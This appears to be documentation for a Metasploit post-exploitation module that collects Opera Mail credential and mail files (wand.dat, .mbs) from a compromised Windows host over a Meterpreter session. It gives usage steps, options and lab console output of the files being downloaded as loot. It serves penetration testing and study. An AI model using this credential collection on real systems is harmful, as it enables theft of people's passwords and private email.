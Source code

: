 ## Module Description

This post-exploitation module gathers artifacts found on Operamail related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/operamail
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamailwand.da_873247.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513062118_default_192.168.56.106_EXTRACTIONwand.d_440695.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamail1.mbs_724517.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_258744.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail2.mbs_057429.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_565399.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail3.mbs_471143.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_391099.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamail4.mbs_468755.mbs

[+] To:************@gmail.com
[+] From:"************"<************@************.co.uk>
[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_975964.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamailm2_upgr_620846.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_994734.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062121_default_192.168.56.106_operamailm2_welc_906380.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_566934.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Processing C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamailwand.da_186519.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTIONwand.d_454986.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail1.mbs_378969.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTION.mbs_751986.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail2.mbs_427825.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_571426.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail3.mbs_783307.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_473719.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail4.mbs_771393.mbs

[*] searches for Email TO/FROM address
[+] To:************@gmail.com
[*] searches for Email TO/FROM address
[+] From:"******"<************@gmail.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_090332.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamailm2_upgr_993450.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_610156.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063653_default_192.168.56.106_operamailm2_welc_946408.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_150137.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

```